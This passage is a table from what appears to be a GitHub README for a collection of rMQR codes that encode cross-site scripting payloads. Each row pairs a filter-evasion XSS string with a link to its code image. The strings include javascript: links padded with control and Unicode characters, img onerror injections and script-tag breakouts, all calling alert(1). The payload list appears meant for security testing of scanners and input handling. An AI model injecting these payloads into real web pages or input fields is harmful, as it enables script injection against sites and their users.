 | `<a href="\x02javascript:javascript:alert(1)" id="fuzzelement1">test</a>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/209.png) |
| `<a href="\x1Bjavascript:javascript:alert(1)" id="fuzzelement1">test</a>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/210.png) |
| `<a href="\x06javascript:javascript:alert(1)" id="fuzzelement1">test</a>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/211.png) |
| `<a href="\xE2\x80\xA9javascript:javascript:alert(1)" id="fuzzelement1">test</a>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/212.png) |
| `<a href="\xE2\x80\x85javascript:javascript:alert(1)" id="fuzzelement1">test</a>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/213.png) |
| `<a href="\x1Ejavascript:javascript:alert(1)" id="fuzzelement1">test</a>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/214.png) |
| `<a href="\xE2\x81\x9Fjavascript:javascript:alert(1)" id="fuzzelement1">test</a>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/215.png) |
| `<a href="\x1Cjavascript:javascript:alert(1)" id="fuzzelement1">test</a>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/216.png) |
| `<a href="javascript\x00:javascript:alert(1)" id="fuzzelement1">test</a>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/217.png) |
| `<a href="javascript\x3A:javascript:alert(1)" id="fuzzelement1">test</a>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/218.png) |
| `<a href="javascript\x09:javascript:alert(1)" id="fuzzelement1">test</a>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/219.png) |
| `<a href="javascript\x0D:javascript:alert(1)" id="fuzzelement1">test</a>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/220.png) |
| `<a href="javascript\x0A:javascript:alert(1)" id="fuzzelement1">test</a>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/221.png) |
| ``"'><img src=xxx:x \x0Aonerror=javascript:alert(1)>`` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/222.png) |
| ``"'><img src=xxx:x \x22onerror=javascript:alert(1)>`` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/223.png) |
| ``"'><img src=xxx:x \x0Bonerror=javascript:alert(1)>`` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/224.png) |
| ``"'><img src=xxx:x \x0Donerror=javascript:alert(1)>`` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/225.png) |
| ``"'><img src=xxx:x \x2Fonerror=javascript:alert(1)>`` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/226.png) |
| ``"'><img src=xxx:x \x09onerror=javascript:alert(1)>`` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/227.png) |
| ``"'><img src=xxx:x \x0Conerror=javascript:alert(1)>`` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/228.png) |
| ``"'><img src=xxx:x \x00onerror=javascript:alert(1)>`` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/229.png) |
| ``"'><img src=xxx:x \x27onerror=javascript:alert(1)>`` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/230.png) |
| ``"'><img src=xxx:x \x20onerror=javascript:alert(1)>`` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/231.png) |
| ``"`'><script>\x3Bjavascript:alert(1)</script>`` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/232.png) |
| ``"`'><script>\x0Djavascript:alert(1)</script>`` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/233.png) |
| ``"`'><script>\xEF\xBB\xBFjavascript:alert(1)</script>`` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/234.png) |
| ``"`'><script>\xE2\x80\x81javascript:alert(1)</script>`` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/235.png) |
| ``"`'><script>\xE2\x80\x84javascript:alert(1)</script>`` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/236.png) |
| ``"`'><script>\xE3\x80\x80javascript:alert(1)</script>`` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/237.png) |
| ``"`'><script>\x09javascript:alert(1)</script>`` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/238.png) |
| ``"`'><script>\xE2\x80\x89javascript:alert(1)</script>`` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/239.png) |
| ``"`'><script>\xE2\x80\x85javascript:alert(1)</script>`` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/240.png) |
| ``"`'><script>\xE2\x80\x88javascript:alert(1)</script>`` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/241.png) |
| ``"`'><script>\x00javascript:alert(1)</script>`` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/242.png) |
| ``"`'><script>\xE2\x80\xA8javascript:alert(1)</script>`` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/243.png) |
| ``"`'><script>\xE2\x80\x8Ajavascript:alert(1)</script>`` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/244.png) |